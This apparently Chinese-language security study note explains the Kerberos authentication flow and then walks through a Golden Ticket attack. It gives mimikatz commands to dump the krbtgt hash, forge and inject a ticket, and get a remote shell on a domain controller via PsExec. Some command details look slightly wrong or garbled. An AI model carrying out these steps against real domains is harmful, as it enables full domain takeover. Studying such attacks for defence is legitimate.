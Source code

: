 ### kerberos协议

- kerberos是一种由MIT提出的一种`网络身份验证`协议,它旨在通过`使用加密技术`为客户端/服务端应用程序提供强大的认证服务,需要三方(`访问服务的client`,`提供服务的server`,`kdc密钥分发中心->AS && TGS`)的共同参与
- 其中kdc服务默认会安装在一个`域的域控中`,而client和server为`域内的用户`或者是`服务`,如http服务,sql服务
- kerberos中client`是否有权限`访问server端的服务由`kdc发放的票据`决定
- `AS`:身份验证服务,`TGS`票据授予服务
- kerberos认证流程

```cmd
#1.AS_REQ:Client -> AS
-client向kdc发起AS_REQ,请求内容为通过client密码hash,加密的时间戳,client ID,网络地址,加密类型等内容
#2.AS_REP:AS -> Client
-kdc使用client hash进行解密,并在ntds.dit中查找该账户,如果结果正确就返回用krbtgt NTLM-hash加密的TGT票据,TGT里面包含PAC,PAC包含client的sid,client所在的组
#3.TGS_REQ:Client -> TGS
-Client 凭借TGT票据向kdc发起针对特定服务的TGS_REQ请求
#4.TGS_REP:TGS -> Client
-kdc使用krbtgt NTML-hash进行解密,如果结果正确,就返回用服务NTLM-hash加密的TGS票据,并带上PAC
```

- 注意:PAC的全称是特权属性证书,不同的账号有不同的权限,PAC就是为了`区分不同权限`的一种方式

****

### 黄金票据攻击

- 黄金票据–伪造`票据授予票据`(TGT),也称为认证票据.解决:如何证明你本人是xxx用户的问题
- 黄金票据是通过伪造的TGT,因为只要有了`高权限的TGT`,那么就可以发送给TGS`换取任意服务的TGS`
- `伪造过程`:

```cmd
#1.获取域控的Krbtgt NTLM Hash值(在域控中操作)
lsadump::dcsync /domain:域名 /user:krbtgt

#2.生成伪造的黄金票据(在client)
kerberos:golden /user:伪造的用户名 /domain:域名 /sid:domain-sid /krbtgt:ntlmhash值 /ticket:票据名称

#参数说明
/admin:伪造的用户名
/domain:域名称
/sid:域的SID(不包括后3位)
/krbtgt: krbtgt 的NTLM-HASH 值
/ticket:生成的票据名称

#3.清空本地票据缓存,导入伪造的票据
#票据20分钟内有效,过期后可以再次导入

#清除本地票据缓存
kerberos::purge
#查看本地保存的票据，观察client name
kerberos::list 
#查看票据列表(cmd下)
klist
 #导入伪造的黄金票据
kerberos::ptt 票据名 	 

#4.利用伪造的黄金票据
#远程执行命令
dir \\dc\c$

#获取交互式shell
PsExec64.exe \\win2003- :-1 cmd.exe
```
